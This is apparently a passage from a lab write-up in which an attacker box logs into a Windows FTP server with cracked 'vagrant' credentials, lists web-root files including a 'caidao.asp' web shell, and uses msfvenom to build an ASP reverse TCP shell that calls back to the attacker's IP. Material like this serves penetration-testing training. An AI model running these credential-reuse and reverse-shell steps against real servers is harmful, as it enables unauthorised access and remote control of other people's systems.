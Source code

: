 ```
[21][ftp] host: 10.0.26.121   login: administrator   password: vagrant
[21][ftp] host: 10.0.26.121   login: vagrant   password: vagrant
```

```
root@attackdefense:~# ftp 10.0.26.121 21
Connected to 10.0.26.121.
220 Microsoft FTP Service
Name (10.0.26.121:root): administrator
331 Password required for administrator.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49366|)
125 Data connection already open; Transfer starting.
10-28-21  07:22AM       <DIR>          aspnet_client
10-28-21  07:19AM                   28 caidao.asp
10-28-21  07:18AM                34251 hahaha.jpg
10-28-21  07:18AM              1116928 index.html
10-28-21  07:18AM              2439511 seven_of_hearts.html
10-28-21  07:18AM               384916 six_of_diamonds.zip
10-28-21  07:22AM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
```

```
http://10.0.26.121/caidao.asp
```

```
root@attackdefense:~# ftp 10.0.26.121 21
Connected to 10.0.26.121.
220 Microsoft FTP Service
Name (10.0.26.121:root): vagrant
331 Password required for vagrant.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> exit
221 Goodbye.
```

Kali Linux: 10.10.16.4

```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.16.4  netmask 255.255.255.0  broadcast 10.10.16.255
        ether 02:42:0a:0a:10:04  txqueuelen 0  (Ethernet)
```

```
root@attackdefense:~# msfvenom -p windows/shell/reverse_tcp LHOST=10.10.16.4 LPORT=1234 -f asp > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38185 bytes
root@attackdefense:~# pwd
/root
```
